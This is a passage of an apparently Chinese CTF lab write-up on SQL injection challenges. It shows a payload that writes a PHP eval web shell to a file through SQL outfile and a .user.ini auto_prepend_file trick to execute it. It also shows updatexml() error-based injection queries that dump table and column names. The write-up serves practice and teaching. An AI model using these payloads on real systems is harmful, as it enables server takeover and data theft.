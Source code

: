 过滤了`php`。可以通过`.user.ini`包含文件来getshell

按照上题的做法，把php代码写到非php文件即可(linux一切皆文件)，例如：

```sql
filename=1.txt'lines terminated by '<?= highlight_file(__FILE__);eval($_GET[1]);?>'#
```

写`.user.ini`，需要考虑到，不管用`lines starting by`或者`fields terminated by`都是添加在了某个字段末尾或者某行的末尾，那么，查询到的第一行的信息，是不在控制范围的，导致`.user.ini`里出现他不该有的字段，这样`.user.ini`会出现语法错误。

在sql语句里，提供了`lines starting by';'`，可以指定行开头，和上面的语句配合使用太完美了

用分号作为每一行的开头，把每一行都注释掉，完美的解决语法问题

在每个字段后添加`.user.ini`的语句构造换行`%0a`，换行显示到下一行

```sql
filename=.user.ini'lines starting by';'terminated by '%0aauto_prepend_file=1.txt'#
```

这题有点神奇？传了.user.ini后，先访问看会不会下载`.user.ini`，不会下载指定是错了没写进去。写进去了没有生效就等等，大概5分钟

::: tip
注意，`.user.ini`写错了就重开靶机吧，sql写的文件不能覆盖
:::

## web 244

参考：[【报错注入】](https://www.cnblogs.com/renhaoblog/p/14080633.html)

![244](https://the0n3.top/medias/show-sql/244.png)

::: tip
updatexml()函数使用时，当xpath_string格式出现错误，mysql则会爆出xpath语法错误（xpath syntax）
例如：
select * from test where ide = 1 and (updatexml(1,0x7e,3));
由于0x7e是~，不属于xpath语法格式，因此报出xpath语法错误。
:::

试一下`updatexml()`函数

爆库

![2441](https://the0n3.top/medias/show-sql/2441.png)

爆表

```sql
?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)%23
```

爆字段

```sql
?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database()),0x7e),1)%23
```
